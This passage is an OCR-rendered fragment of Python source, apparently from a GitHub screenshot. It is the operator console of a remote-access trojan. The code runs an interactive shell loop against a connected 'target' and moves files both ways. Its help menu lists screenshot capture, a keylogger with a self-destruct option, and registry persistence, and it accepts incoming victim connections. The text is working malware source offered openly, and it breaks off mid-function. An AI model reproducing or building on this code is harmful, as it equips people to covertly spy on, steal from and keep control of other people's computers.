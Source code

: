 ```
    chunk = target.recv(1024)
    while chunk:
        f.write(chunk)
        try:
            chunk = target.recv(1024)
        except socket.timeout as e:
            break
    target.settimeout(None)
    f.close()


def target_communication(target, ip):
    count = 0
    while True:
        command = input('* Shell~%s: ' % str(ip))
        reliable_send(target, command)
        if command == 'quit':
            break
        elif command == 'background':
            break
        elif command == 'clear':
            os.system('clear')
        elif command[:3] == 'cd ':
            pass
        elif command[:6] == 'upload':
            upload_file(target, command[7:])
        elif command[:8] == 'download':
            download_file(target, command[9:])
        elif command[:10] == 'screenshot':
            f = open('screenshot%d' % (count), 'wb')
            target.settimeout(3)
            chunk = target.recv(1024)
            while chunk:
                f.write(chunk)
                try:
                    chunk = target.recv(1024)
                except socket.timeout as e:
                    break
            target.settimeout(None)
            f.close()
            count += 1
        elif command == 'help':
            print(termcolor.colored('''\n
            quit                                --> Quit Session With The Target
            clear                               --> Clear The Screen
            cd *Directory Name*                 --> Changes Directory On Target System
            upload *file name*                  --> Upload File To The target Machine
            download *file name*                --> Download File From Target Machine
            keylog_start                        --> Start The Keylogger
            keylog_dump                         --> Print Keystrokes That The Target Inputted
            keylog_stop                         --> Stop And Self Destruct Keylogger File
            persistence *RegName* *fileName*    --> Create Persistence In Registry'''),'green')
        else:
            result = reliable_recv(target)
            print(result)

def accept_connections():
    while True:
        if stop_flag:
            break
        sock.settimeout(1)
        try:
            target, ip = sock.accept()
```